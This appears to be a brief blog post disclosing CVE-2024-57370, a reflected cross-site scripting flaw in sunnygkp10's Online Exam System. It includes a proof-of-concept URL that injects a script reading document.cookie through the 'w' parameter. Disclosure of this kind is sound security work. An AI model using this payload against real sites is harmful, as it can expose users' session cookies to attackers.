 ```yaml
---
title:  "CVE-2024-57370: sunnygkp10's Online Exam System"
date:   2025-01-16
tags: [posts]
excerpt: "Discovery of CVE-2024-57370"
---
```

<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2024-57370-OnlineExamSystem-Home.JPG" alt="">

Explanation of CVE-2024-57370
---
Cross-site Scripting (XSS) vulnerability in sunnygkp10 Online Exam System master version allows a remote attacker to obtain sensitive information via the ```w``` parameter.

## Vulnerable Code:
<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2024-57370-OnlineExamSystem-Code.JPG" alt="">

## Proof-of-Concept: 
'''http://DOMAIN_NAME/Online-Exam-System-/index.php?w=%22);alert(document.cookie);//%22'''

<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2024-57370-OnlineExamSystem-POC.JPG" alt="">

References
---
1. [CVE Link] - Link to the CVE
2. [Online Exam System GitHub](https://github.com/sunnygkp10/Online-Exam-System-)
